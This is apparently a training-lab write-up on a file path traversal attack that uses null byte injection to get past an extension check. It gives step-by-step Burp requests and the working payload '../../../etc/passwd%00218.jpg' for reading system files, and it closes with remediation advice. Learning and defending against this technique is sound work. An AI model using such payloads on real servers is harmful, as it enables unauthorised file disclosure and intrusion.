 ## 🧪 Lab: File Path Traversal - Validation of File Extension with Null Byte Bypass  
**Level**: Practitioner  
**Date**: June 16, 2025  
**Goal**: Read `/etc/passwd` even when the application validates file extensions (e.g., `.jpg`).

---

### 🧰 Tools  
- Burp Suite (Repeater / Interceptor)  
- URL Encoder

---

### 🧭 Steps

1. **Intercept the image request**  
   - Navigate to the product page and capture a request like:
     ```
     GET /image?filename=218.jpg
     ```

2. **Send to Repeater**

3. **Test direct traversal without extension**  
   - Try:
     ```
     filename=../../../etc/passwd
     ```
   - ❌ Request fails or blocked — `.jpg` extension required

4. **Try traversal with fake extension**  
   - Try:
     ```
     filename=../../../etc/passwd.jpg
     ```
   - ❌ Fails — no such file

5. **Bypass with Null Byte Injection**  
   - Inject a null byte before `.jpg`:
     ```
     filename=../../../etc/passwd%00218.jpg
     ```
   - ✅ Server processes path before null byte and retrieves `/etc/passwd`

---

### 💣 Payload

```
../../../etc/passwd%00218.jpg

```


---

### 💡 Observations
- Some applications validate extensions by checking string suffixes
- Null byte (`%00`) injection can terminate string early at the backend
- This tricks the system into processing the path before `.jpg` is even considered

---

### 🔒 Remediation
- Do not rely on string matching for extension validation  
- Use secure file APIs and path sanitization  
- Disable null byte interpretation at server level  
- Avoid exposing any user-controlled file paths
